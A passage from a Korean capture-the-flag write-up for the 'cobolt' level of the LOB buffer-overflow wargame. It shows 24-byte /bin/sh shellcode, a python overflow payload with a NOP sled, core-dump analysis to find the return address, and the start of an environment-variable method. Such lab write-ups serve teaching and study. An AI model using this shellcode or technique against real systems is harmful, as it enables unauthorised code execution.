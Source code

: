 필자는 1, 2번 방법으로 문제를 풀어 볼 것이다.

------

### 0x02. Dyamic Analysis & Exploit



#### 1) RET 아래 스택 영역 사용하기.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/image-20180827223605161.png" width="500px">

위 그림처럼 buffer배열과 SFP는 쓰레기값을 넣고, RET에는 RET바로 다음 주소를 가리키게 하고 그 뒤로 shellcode를 넣는다.

shellcode가 들어가는 주소를 알기 위해 core dump를 만들자.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/image-20180827225219317.png" width="700px">

```
./aobolt `python -c 'print "A"*16+"BBBB"+"CCCC"+"\x90"*50+"S"*24'`
```

> BBBB는 SFP, CCCC는 RET, '\x90'은 NOP슬라이드, S는 쉘코드가 들어갈 공간(24byte)



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/image-20180827225429938.png" width="700px">

core dump를 살펴보면 우리가 **shellcode를 넣을 공간은 "S"(\x53)가 들어간 공간**이다. NOP를 넣은 이유는 NOP Sliding을 이용하여 쉽게 shellcode에 접근하기 위함으로 NOP(\x90)이 있는 주소 아무곳을 RET주소에 넣으면 NOP를 따라 내려가다가 shellcode를 만나 실행하게 된다.

RET주소에 대략 0xbffffa6c주소 언저리를 넣어주면 될 것 같다.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/image-20180827225615182.png" width="700px">



-----

#### 2) 환경변수 사용하기.

linux 시스템에는 환경변수라는 것이 존재한다. `export` 명령어를 치면 환경변수들이 나타나게 되는데, 이러한 변수들이 프로그램이 동작할 때 마다 스택에 쌓여 하나의 변수처럼 사용되게 된다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/image-20180827225742065.png" width="700px">



실제 프로그램이 실행되면 스택 어느 부분에 쌓이게 되는지 알아보자.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/image-20180827230447465.png" width="700px">
